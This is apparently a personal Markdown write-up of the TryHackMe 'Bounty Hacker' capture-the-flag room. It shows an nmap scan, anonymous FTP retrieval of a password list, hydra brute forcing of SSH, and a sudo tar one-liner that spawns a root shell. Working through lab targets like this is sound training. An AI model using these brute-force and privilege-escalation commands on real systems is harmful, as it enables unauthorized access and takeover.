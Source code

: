 ```yaml
---
parent: "[[CTFs - THM]]"
---
```

```bash
# PLATFORM          . THM
# CTF NAME          . Bounty Hacker
# DESCRIPTION       . You talked a big game about being the most elite hacker in the solar system. Prove it and claim your right to the status of Elite Bounty Hacker!
# DIFFICULTY        . Easy
# CTF LINK          . https://tryhackme.com/room/cowboyhacker
```

```bash
sudo nmap -sSVC -T5 10.10.150.34 -p- -oN BountyHacker
```

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.11.53.46
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status

22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dcf8dfa7a6006d18b0702ba5aaa6143e (RSA)
|   256 ecc0f2d91e6f487d389ae3bb08c40cc9 (ECDSA)
|_  256 a41a15a5d4b1cf8f16503a7dd0d813c2 (ED25519)

80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel


```

- We see that `FTP` allows for `anonymous` login. 

- Let's connect using `ftp -A 10.10.150.34`

```bash
ftp> dir
200 EPRT command successful. Consider using EPSV.
150 Here comes the directory listing.

-rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt
-rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt
```

```locks.txt
rEddrAGON
ReDdr4g0nSynd!cat3
Dr@gOn$yn9icat3
R3DDr46ONSYndIC@Te
ReddRA60N
R3dDrag0nSynd1c4te
dRa6oN5YNDiCATE
ReDDR4g0n5ynDIc4te
R3Dr4gOn2044
RedDr4gonSynd1cat3
R3dDRaG0Nsynd1c@T3
Synd1c4teDr@g0n
reddRAg0N
REddRaG0N5yNdIc47e
Dra6oN$yndIC@t3
4L1mi6H71StHeB357
rEDdragOn$ynd1c473
DrAgoN5ynD1cATE
ReDdrag0n$ynd1cate
Dr@gOn$yND1C4Te
RedDr@gonSyn9ic47e
REd$yNdIc47e
dr@goN5YNd1c@73
rEDdrAGOnSyNDiCat3
r3ddr@g0N
ReDSynd1ca7e
```

```task.txt
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin
```

- The `locks.txt` file seems to be a dictionary of passwords, so I've tried bruteforcing the `ssh` with both `vicious` and `lin` as username.

```bash
hydra -l vicious -P ~/workspace/ctf_workspace/locks.txt 10.10.150.34 ssh
hydra -l lin -P ~/workspace/ctf_workspace/locks.txt 10.10.150.34 ssh
```

```
[DATA] attacking ssh://10.10.150.34:22/
[22][ssh] host: 10.10.150.34   login: lin   password: {redacted}
```

- Once we're logged in to the machine, I've checked `sudo -l` and we can run `tar` as sudo.

- According to GTFObins, this could lead to a privilege escalation vector by using 

```bash

sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

- First flag is at `/home/lin/user.txt`
- Second flag is at `/root/root.txt`

